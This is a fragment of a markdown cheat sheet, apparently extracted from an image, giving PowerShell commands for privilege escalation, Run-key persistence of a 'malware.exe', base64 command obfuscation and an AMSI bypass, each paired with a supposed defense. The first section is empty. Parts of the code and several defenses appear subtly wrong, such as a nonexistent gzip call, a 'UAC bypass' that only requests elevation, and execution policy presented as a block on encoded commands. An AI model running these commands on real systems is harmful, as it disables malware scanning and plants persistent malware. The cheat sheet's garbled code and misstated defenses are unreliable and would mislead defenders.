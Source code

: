   ```powershell  
  ```  

---

### **2. Privilege Escalation (Bypass UAC)**  
```powershell  
Start-Process "C:\Windows\System32\cmd.exe" -Verb RunAs -ArgumentList "/c reg add HKLM\SOFTWARE\Microsoft /v Backdoor /t REG_SZ /d C:\malware.exe"  
```  
- **Purpose**: Adds a registry key to execute `malware.exe` on startup with elevated privileges.  
- **Defense**:  
  ```powershell  
  Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "EnableLUA" -Value 1  
  ```  

---

### **3. Persistence (Registry Run Key)**  
```powershell  
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Update" -Value "C:\malware.exe"  
```  
- **Purpose**: Executes `malware.exe` every time the user logs in.  
- **Defense**:  
  ```powershell  
  Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" | Remove-ItemProperty -Name "Update"  
  ```  

---

### **4. Obfuscation (Base64 + Gzip)**  
```powershell  
$Encoded = [Convert]::ToBase64String([IO.Compression.Gzip]::Compress([Text.Encoding]::UTF8.GetBytes('malicious code')))  
powershell.exe -EncodedCommand $Encoded  
```  
- **Purpose**: Executes obfuscated malicious code.  
- **Defense**:  
  ```powershell  
  Set-ExecutionPolicy Restricted -Force  
  ```  

---

### **5. AMSI Bypass (Memory Patching)**  
```powershell  
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null,$null)  
```  
- **Purpose**: Disables AMSI to allow execution of malicious scripts.  
- **Defense**:  
  ```powershell  
  Set-MpPreference -EnableTamperProtection Enabled  
  ```  

---